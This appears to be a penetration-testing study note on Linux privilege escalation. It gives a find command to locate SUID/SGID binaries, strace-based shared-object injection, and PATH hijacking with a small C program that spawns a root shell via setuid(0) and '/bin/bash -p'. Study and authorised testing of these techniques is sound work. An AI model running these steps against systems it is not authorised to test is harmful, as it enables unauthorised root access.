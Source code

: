 # Privileges Escalation - Linux
# Exploiting SUID/SGID 

## Executables
- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` to look for executables, hoping some of them have an obsolete (so vulnerable) version.
- Search those versions on https://exploit-db.com or somewhere else, for example Github.
- If we find something interesting, copy the exploit and paste it on a `.sh` file, to make it runnable.
- Then run it to escalate privileges. Check if we became **root** with `whoami`.

## Shared objects
Some binaries could be vulnerable to shared objects injections.
- `strace <BINARY PATH> 2>&1 | grep -iE "open|access|no such file"` to look for missing dependencies.
- If we find a missing file from an accessible location (for example the `/home` directory), we could create it and place a root shell in it.

## Environment variable
Some binaries could have readable sequences of characters and they can be exploited, because they inherit the user's PATH environment variable and they attempt to execute programs without specifying an absolute path.
- `strings <BINARY PATH>` to look for readable ASCII or Unicode characters.
  - If we find some interesting stuffs like (for example) `system` and `service` without its full path (`/usr/sbin/service`), we can exploit it creating a `.c` program:
    ```
    int main() {
            setuid(0);  
            system("/bin/bash -p"); 
    }
    ```
    In which:
      - `setuid(0)` => root id.
      - `system` => command to exploit.
      - `/bin/bash -p` => privileged shell.
  - Let's compile it to make an executable file, called exactly as the command we are going to exploit: `gcc <EXPLOIT>.c -o service`
  - In the end, we have to tell the binary "I want you to look for `service` in my own path first, then in the others", so `PATH=.:$PATH <BINARY PATH>`:
    - `.` => our current directory.
    - `:$PATH` => join the original path.
  - Now, running the binary we should be able to gain access to a root. shell. Check it with `whoami`.










